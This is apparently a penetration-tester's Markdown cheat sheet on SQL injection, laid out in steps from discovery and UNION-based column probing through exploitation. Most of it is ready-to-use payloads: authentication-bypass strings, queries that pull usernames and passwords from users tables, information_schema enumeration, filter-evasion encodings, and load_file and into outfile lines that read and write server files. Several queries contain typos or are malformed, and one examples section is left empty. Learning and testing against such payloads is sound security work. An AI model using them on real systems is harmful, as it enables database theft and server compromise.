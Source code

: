 ## Chapter 9 : SQL 


1) Check user input vulnerability points : URL, fields, User-agent, Language 


2) Test the user inputs with basic payloads to check if the vulnerability and type of injections : __Blind, Band, Error_Based__ SQL


3) Query the number of the columns in the databasee


4) Find out the datatype of the columns


5) Extract basic information as the version or database name 


&nbsp;
&nbsp;
&nbsp;


### Discovery


__Type 1:Straightforward___


1- Submit a single quotation mark as the item of data you are targeting.



__Basic Discovery Commands :__



Examples :


>> __' OR 1=1 ;--__ 
    
>> __') OR 1=1; --__ 
   
>> __' and 'a'='a__

>> __' and 'a'='b__

   
&nbsp;
&nbsp;
&nbsp;



2- It is important to keep in mind that not all vulnerabilities are straighforward.
   It is essential while testing to look for the behavior of the application:


 - __Error_based:__ the application shows the error to the end user 


- __Blind__ does not show any thing back to the user. It is mainly revolves on booleans
	 of True or False (application behavior)


- __Band__


__Note:__ It is always recommend to probe the applcation as Blind SQL injection, if the basic payloads did not work 


&nbsp;
&nbsp;

__Type 2:Bypass Filters__


1- Use the above commands in encoding manner in order to bypass filters 


__Basic Encodign Commands:__


Examples:


>>


>>



--------------------------------------------------------------------------------------------------------------------

### Probing the Database 


__The UNION Operator__


1- Easily extract arbitrary data from within
  the database

&nbsp;
2- UNION is supported by all major DBMS products.

&nbsp;
3- Your first task is to discover the number of columns returned by the original
  query being executed by the application. You can do this in two ways:

&nbsp;
4- You can exploit the fact that NULL can be converted to any data type to
  systematically inject queries with different numbers of columns until your
  injected query is executed
  

>>    ‘ UNION SELECT NULL--
>>       ‘ UNION SELECT NULL, NULL--
>>      ‘ UNION SELECT NULL, NULL, NULL--

&nbsp;
5- Having identified the required number of columns, your next task is to
  discover a column that has a string data type so that you can use this to
  extract arbitrary data from the database


 >>    ‘ UNION SELECT ‘a’, NULL, NULL--
 >>     ‘ UNION SELECT NULL, ‘a’, NULL--
 >>     ‘ UNION SELECT NULL, NULL, ‘a’--

&nbsp;
6- In Oracle databases, every SELECT statement must include a FROM
  attribute, so injecting UNION SELECT NULL produces an error regardless of
 the number of columns. You can satisfy this requirement by selecting from the
 globally accessible table DUAL. For example:


  >>  ‘ UNION SELECT NULL FROM DUAL--


&nbsp;
7- When you have identified the number of columns required in your injected
  query, and have found a column that has a string data type, you are in a position
  to extract arbitrary data.

  >>  EX: ‘ UNION SELECT @@version,NULL,NULL--
	
  >>   ‘ UNION SELECT banner,NULL,NULL FROM v$version-- | ORACLE



&nbsp;
&nbsp;
&nbsp;

-------------------------------------------------------------------------------------------------

### Exploitation : 


__Extracting Data with UNION__


__Type 1: Straightforward___


1- Find out the names of the database tables and columns that
  may contain interesting information


 >> EX: Name=Matthew’%20union%20select%20table_name,column_name,null,null,
      null%20from%20information_schema.columns--__

&nbsp;
2- Select the required column

 >> Ex: Name=Matthew’%20UNION%20select%20username,password,null,null,null%20  
   from%20users--__


&nbsp;
__Note:__

The information_schema is supported by MS-SQL, MySQL, and many
other databases, including SQLite and Postgresql. It is designed to hold database
metadata,EXCEPT ORACLE


__ORACLE: SELECT table_name,column_name FROM all_tab_
	columns to retrieve information about tables and columns in the database.__


&nbsp;

3- Search for interesting pieces of inforamtion:

 __EX: SELECT table_name,column_name FROM information_schema.columns where
      column_name LIKE ‘%PASS%’__

&nbsp;
&nbsp;


__Type 2 : Bypass Filters__


__Method 1:__  Sometimes when injecting the payload, it wont work as the url is encoded or common characters are removed 


 >> select ename,sal from emp where ename=’marcus’:

&nbsp;

__Encoding with ASCII__

>> Ex: SELECT ename, sal FROM emp where ename=CHR(109)||CHR(97)||CHR(114)||CHR(99)||CHR(117)||CHR(115)
&nbsp;

>>  SELECT ename, sal FROM emp WHERE ename=CHAR(109)+CHAR(97)



__Method 2:__  if the query does not work, there might be a filter for words :


>> 	SeLeCt
>>	%00SELECT
>>	SELSELECTECT
>>	%53%45%4c%45%43%54
>>	%2553%2545%254c%2545%2543%2554__


__Method 3:__ Using SQL Comments

		
 >> EX: SELECT/*foo*/username,password/*foo*/FROM/*foo*/users

&nbsp;
>> SEL/*foo*/ECT username,password FR/*foo*/OM users



__Method 4:__ Dealing with single quotes issue:

		

- Sometimes single quote causes error in the database 

		
		
- To exploit this vulnerability, an attacker can simply register a username
  containing his crafted input, and then attempt to change his password. 


>> EX: ‘ or 1 in (select password from users where username=’admin’)--


&nbsp;
&nbsp;

## More Examples :


>> union select 1, 2, 3 %23                  &nbsp;&nbsp;  |  Bypass Web filters  | 


>> uNioN+sEleCt+1,2+%23                      &nbsp;&nbsp;  |  Bypass Web filters  |  


>> uNioN`/**/`sEleCt`/**/`1,2`/**/`%23       &nbsp;&nbsp;  |  Bypass Web filters  | 
>>

>> UniOn selEct 1,version() /*


>> UniOn selEct 1,database() /*


>> UniOn selEct 1,user() /*


>> UniOn selEct 1,table_name frOm information_schema.tables table_schema = '[database name]' /*


>> UniOn selEct 1,column_name frOm information_schema.columns table_name = '[table name]' /*


>> UniOn selEct 1,[column name] frOm [table name] /*


>> UniOn selEct 1,load_file('file location') /*   Reading files:


>> UniOn selEct null,[file content] inTo outfile '/location/to/write/file/to' /*  Writing files 


>> union select 1, column_name, null, from Infromation_schema .columns where table_name = 0x769166  &nbsp;&nbsp; | hex encoding                                                                                                                                dbname   


>>  ' union select 1, column_name, null, null, null, 5 from Infromation_schema.columns where table_name = 'accounts' | 


>>  ' union select username, pass, is_admin from 'accounts' &nbsp;&nbsp;  | 


>>  ' union select 1, table_name, null, null, null, 5 from Infromation_schema.tables where table_schema = 'owasdb 











